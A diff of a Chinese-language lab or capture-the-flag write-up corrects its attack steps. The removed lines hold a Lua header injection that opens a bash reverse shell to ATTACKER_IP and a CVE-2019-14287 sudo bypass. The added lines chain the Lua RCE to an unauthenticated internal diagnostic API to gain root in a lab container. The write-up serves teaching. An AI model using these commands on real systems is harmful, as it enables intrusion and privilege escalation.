

Before and after one commit to reyliou/412630567-Lab, a Markdown page: writeup.md, the part around the change. GitHub-like rendering; blank space fills up the shorter version.

Commit message:
Doc: Correct Lua RCE payload and pivot flow in writeup

```diff
--- a/writeup.md
+++ b/writeup.md
@@ -26,15 +26,15 @@
 
 ### 第三階段：遠端代碼執行 (Lua RCE)
 *   **發現**：在 `/system-status/` (site-a-status) 原始碼中發現 `X-NEO-DEBUG` 的具體用法。
-*   **利用**：透過 Nginx Lua 注入取得系統低權限 Shell。
-    `curl -H "X-NEO-DEBUG: os.execute('bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1')" http://localhost:8080/api/debug-system`
-*   **狀態**：獲得 `neo-user` 使用者權限。
+*   **利用**：透過 Nginx Lua 注入取得 Gateway 容器的控制權。
+    `curl -H 'X-NEO-DEBUG: ngx.say(io.popen("id"):read("*a"))' http://localhost:8080/api/debug-system`
+*   **狀態**：獲得 `nobody` 使用者權限 (於 `nginx-gateway` 容器內)。
 
-### 第四階段：權限提升 (CVE-2019-14287)
-*   **偵察**：執行 `sudo -l` 發現配置：`(ALL, !root) NOPASSWD: /bin/bash`。
-*   **利用**：使用特定的 UID 繞過 root 限制。
-    `sudo -u#-1 /bin/bash`
-*   **結果**：成功取得 **root** 權限。
+### 第四階段：橫向移動與權限提升 (Pivot & CVE-2019-14287)
+*   **戰術**：由於 `neo-mall` 容器的 `/api/seller/diag` 介面允許來自 Docker 內網的未授權訪問，攻擊者利用 Gateway 的 Lua RCE 作為跳板，向 `neo-mall` 發送指令。
+*   **利用**：結合 **CVE-2019-14287**，透過 Lua RCE 遠端呼叫 Mall 的診斷 API 執行提權指令 (繞過 root 限制)。
+    `curl -H 'X-NEO-DEBUG: ngx.say(io.popen("curl -s -X POST http://neo-mall:8080/api/seller/diag -H \"Content-Type: application/json\" -d \"{\\\"command\\\":\\\"sudo -u#-1 /bin/bash -c id\\\"}\""):read("*a"))' http://localhost:8080/api/debug-system`
+*   **結果**：伺服器回傳 `uid=0(root)`，成功在 `neo-mall` 容器中取得 **root** 權限。
 
 ### 第五階段：獲取 Flag
 *   **動作**：執行 root 專屬腳本生成對應學號的動態識別碼。
```
